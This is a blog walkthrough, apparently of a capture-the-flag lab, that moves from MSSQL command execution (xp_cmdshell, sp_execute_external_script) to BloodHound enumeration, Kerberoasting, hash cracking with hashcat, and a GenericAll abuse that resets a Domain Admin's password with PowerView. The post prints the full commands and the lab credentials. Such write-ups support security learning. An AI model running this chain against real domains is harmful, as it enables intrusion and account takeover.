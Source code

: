 ```yaml
---
title: Kerberoasting Using Mssql Server [ Abusing GenericAll ] 
author: r0b0tG4nG
date: 2022-01-13 01:33:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, hashcat, xp_cmdshell, powerview, evil-winrm, kerberoast, bloodhound]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/149357946-9fd46ceb-e42d-4d76-9b0d-bc2a474ec637.png)
<br><br>

**> Information Gathering**<br>

From The previous writeup on <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">Abusing MSSQL Linked Servers</a>, we found credentials on the target. In this chapter, we will look at how we can perform kerberoast attacks through `MSSQL Server`. During our previous engagement, we found credentials using <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>.<br>
```web.config
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
```
<br>

The question is what can we do with this credential?? Well, we are not out of options. I checked the ipaddress of the target `MSSQL Server` is running on using `sp_execute_external_script` command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("ipconfig");'; `. Looking at `IPV4` IP address, there was no service that we could connect to remotely with the credentials we have. So, i decided to dive deep into the `IPV6` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357971-62ddb9d1-f1a5-467f-93ac-af21677c3a47.png)<br>

A quick nmap scan was performed on the `IPV6` IP address. Port 5985 (Windows Remote Management) was open. Good news at last all we need to do is add the `IPV6` IP address to `/etc/hosts` file `dead:beef::1001  targetipv6`. Henceforth, when i type `targetipv6` i am referring to `dead:beef::1001` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357995-64d905cf-e354-4354-99ad-3a9775f413bd.png)<br>

I connected to `WinRM` using <a href="https://github.com/Hackplayers/evil-winrm">evilwinrm</a> tool. The command executed to connect to `WinRM` was `evil-winrm -i targetipv6 -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'`<br>
![image](https://user-images.githubusercontent.com/67085453/149358092-a9615c4f-e560-451f-96b4-ae37e846a737.png)<br>

Digging around using <a href="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS">winpeas</a> and some few post enumeration tools didn’t yield any positive results. So, i decided to enumerate the domain to find privilege escalation paths but i realized we can't query the domain from a
local administrator account from the errors i encountered.<br>
![image](https://user-images.githubusercontent.com/67085453/149358253-3b39b099-9097-4658-8f09-e777400dfa3c.png)<br>

However, the `SQL service account` can be use instead since service accounts
automatically impersonate the computer account, which are members of the domain and effectively a special type of user account. I logged into `MSSQL` using `impacket-mssqlclient` with the `SA` User we added in the <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">previous post</a> and enabled `xp_cmdshell` to query domain users with command `xp_cmdshell net users /domain`. <br>
![image](https://user-images.githubusercontent.com/67085453/149358283-48722ed2-2d42-4c46-9b73-80e9c1d1678f.png)<br>

`BloodHound` is an application developed with one purpose: to find relationships within an `Active Directory (AD) domain` to discover attack paths. With this said, we will grab `SharpHound.exe` from <a href="https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors">BloodHoundAD GitHub page</a>. Create the `C:\temp\` directory first then upload the `SharpHound.exe` to the target using our evil-winrm session.<br>
![image](https://user-images.githubusercontent.com/67085453/149358328-2fe15870-4bbe-43f8-bc1e-9e50ad550337.png)<br>

Then the next step is to collect all information about the `Active Directory (AD) domain` through mssql using the command `xp_cmdshell C:\temp\SharpHound.exe -C All --outputdirectory C:/temp`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358361-d447e6d1-62e4-4e3c-98f3-78da446f5abc.png)<br>

Once information about the target `Active Directory (AD) domain` is collected and saved into a zip file, we then download the zip file using evil-winrm download command.<br>
![image](https://user-images.githubusercontent.com/67085453/149358379-23531855-f919-42be-abd0-7901ccaa0c76.png)<br>

Install `BloodHound GUI` and upload the zip file you downloaded. *Note: you can install bloodhound GUI from* <a href="https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html">BloodHound Docs</a>.<br>
![image](https://user-images.githubusercontent.com/67085453/149358407-1dbcbc96-34e6-4b1f-9135-f80f70e22561.png)<br>

After uploading the zip file to bloodhound UI for visualization. We can use pre-built queries to find any quick `privilege escalation vectors`. Clicking on the `Shortest Paths to Domain Admins from Kerberoastable Users` entry shows the following.<br>
![image](https://user-images.githubusercontent.com/67085453/149358427-1558189b-5f46-4e29-adc6-79af19030266.png)<br>

The user `p00_adm` is a member of `help desk` and has `GenericAll privileges` on the `Domain Admins group`. This means that we can add any user to `Domain Admins` if we have `p00_adm credentials`. To accomplish this, we need to kerberoast the `p00_adm` user and try to crack his hash. We can use the `Invoke-Kerberoast.ps1` from <a href="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1">EmpireProject GitHub page</a>.<br>

**> What is Kerberoasting??:** Kerberoasting is a post-exploitation attack that extracts service account credential hashes from Active Directory for offline cracking. It is used to crack a Kerberos (encrypted password) hash using brute force techniques. If successful, it can crack NTLM hashes in a few hours and provide the adversary with a clear-text password<br>

Download the `Invoke-Kerberoast.ps1` script, upload it to `C:\temp\` directory using `Evil-winrm` session like we did to the `SharpHHound.exe` binary. Once we have the `.ps1` uploaded, we can invoke our `kerberoast attack` through `MSSQL` using the command `xp_cmdshell powershell.exe -c "Import-Module C:\temp\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat hashcat"`<br>
![image](https://user-images.githubusercontent.com/67085453/149358471-724a69a4-5f19-4db5-be2e-87cdd9ea9f9b.png)<br>
![image](https://user-images.githubusercontent.com/67085453/149358487-e840b805-3f39-42e8-868b-9830dc3fd182.png)<br>

We found two hashes `p00_hr` & `p00_adm`. Keep in mind that we are after `p00_adm` user hash therefore i copied the `p00_adm` user hash to a file and made sure that i deleted the spaces and empty lines from the hash. `p00_adm`. The hash can be cracked using Hashcat command `hashcat -m 13100 hashes /usr/share/seclists/Passwords/Keyboard-Combinations.txt --force`. Lucky us! we were able to crack the password. *Note: this took a very long time since i had to try a variety of wordlist until i got the  password* The password for `p00_adm` is `ZQ!5t4r`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358516-37aeb491-2817-4814-b520-3069a62812aa.png)<br>

What else now?? well we have `p00_adm` user plaintext password and we can `impersonate` the `p00_adm` with the help of `PowerView`. How do we achieve this? first let's grab `PowerView.ps1` from <a href="https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView">PowerShellEmpire GitHub page</a> and upload it to the target using evil-winrm. Once The `PowerView.ps1` script is uploaded, the next thing to do is to import the file so we will have access to `PowerView` extended commands like `Add-DomainGroupMember`, `Get-DomainComputer`.....etc.<br>

All done?? what's next?? We need to use a credential object to impersonate `p00_adm` user. Execute this command<br>
```shell
$user='p00_adm'
$pass='ZQ!5t4r'
$p= ConvertTo-SecureString -AsPlainText $pass -force
$cred=New-Object System.Management.Automation.PSCredential -ArgumentList $user,$p
```

![image](https://user-images.githubusercontent.com/67085453/149358621-d2409d18-8cbb-497a-86ed-434add3a3487.png)<br>

After impersonating `p00_adm` user, i still had issues logging in so i searched for `Domain Admins` on the target using the command `get-netuser -DomainController dc -Credential $cred`. From this, i found out the user `mr3ks` is part of the `Domain Admins Group`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358652-d8e5ee90-c4c7-4715-a148-6354cc374103.png)<br>

**> Abusing GenericALL**<br>

Looking back at the `BloodHound GUI`, to abuse `GenericAll`, i right-clicked on the `GenericAll` line, selected `help` and then `Abuse`. This Feature of `BloodHound GUI` explains how we can abuse this feature.<br>
![image](https://user-images.githubusercontent.com/67085453/149358680-5e81be5e-41ea-4e0e-8124-93c2e4e41b20.png)<br>

What can we do now? well, we can change the credentials for `mr3ks` user. The question is how do we do that?? remember i just said `BloodHound GUI` explains everything. I executed this command<br>
```shell
$Username = 'p00_adm'
$Password = 'ZQ!5t4r'
$Connect = ConvertTo-SecureString -AsPlainText $Password -Force
$Auth = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$Connect
Set-DomainUserPassword -Identity mr3ks -Password $Connect -Credential $Auth
```

![image](https://user-images.githubusercontent.com/67085453/149358712-4a44c04c-4ece-40de-8acf-b1a96dd91615.png)<br>

We encountered no errors that's good news to the eyes. Let's try to connect to the target through the target `IPV6` `Win-RM` service.  To achieve this, i executed `evil-winrm -i targetipv6 -u mr3ks -p 'ZQ!5t4r'`<br>
![image](https://user-images.githubusercontent.com/67085453/149358731-8f998768-a5e4-4d5a-982b-bc62e01cb4ef.png))<br>


 I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](https://user-images.githubusercontent.com/67085453/146535039-fc5cc779-43b1-4f0b-83c6-ad7129b54219.png).

